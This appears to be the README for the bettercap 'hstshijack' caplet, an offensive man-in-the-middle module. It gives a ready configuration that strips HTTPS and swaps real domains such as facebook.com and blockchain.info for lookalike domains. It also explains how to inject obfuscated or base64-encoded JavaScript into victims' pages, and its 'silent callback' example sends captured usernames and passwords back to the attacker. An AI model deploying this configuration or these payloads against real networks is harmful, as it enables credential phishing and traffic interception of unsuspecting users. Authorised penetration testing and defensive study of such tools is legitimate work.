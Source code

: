 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             /usr/local/share/bettercap/caplets/hstshijack/ssl.log
set hstshijack.payload         /usr/local/share/bettercap/caplets/hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          *
set hstshijack.targets         facebook.com,*.facebook.com
set hstshijack.replacements    facedook.com,*.facedook.com
set hstshijack.blockscripts    facebook.com,*.facebook.com
set hstshijack.obfuscate       false
set hstshijack.encode          true
set hstshijack.custompayloads  *:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
#set net.sniff.output   hstshijack0001.pcap
set net.sniff.verbose  false
net.sniff   on
http.proxy  on
```

### Core payload

This module injects HTML & JS files with a payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>) that communicates with this module, revealing all URLs that are discovered in the injected document.

This is done in separate and asynchronous requests so that the bettercap proxy can adjust the host and path for each request, and send a HEAD request to learn each host's response headers for a HTTP request.

### Custom payloads

You can also inject your own JavaScript payload(s) into HTML & JS files from targeted hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:hstshijack/payloads/sslstrip.js,google.com:hstshijack/payloads/google.js,*.google.com:hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https://` instances in `<a href="...` tags.

### Obfuscation

Your custom payloads are automatically obfuscated by the module.

Any instance beginning with `obf_` will be obfuscated.


Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Encoding

Payloads can be injected in HTML documents using base64 encoded data URLs.

To enable payload encoding, set `hstshijack.encode` to `true`.

### Silent callbacks

You can write custom payloads that communicate with bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```
<sup>Note: Every instance of `obf_path_callback` will be replaced with the callback path & every instance of `obf_path_ssl_log` will be replaced with the SSL log path.</sup>

The code above will send a POST request that will be sniffed by bettercap, but not proxied. 

As soon as bettercap receives a silent callback, any request for the targeted host will no longer be spoofed for that client.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       blockchain.info,*.blockchain.info
set hstshijack.replacements  blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.
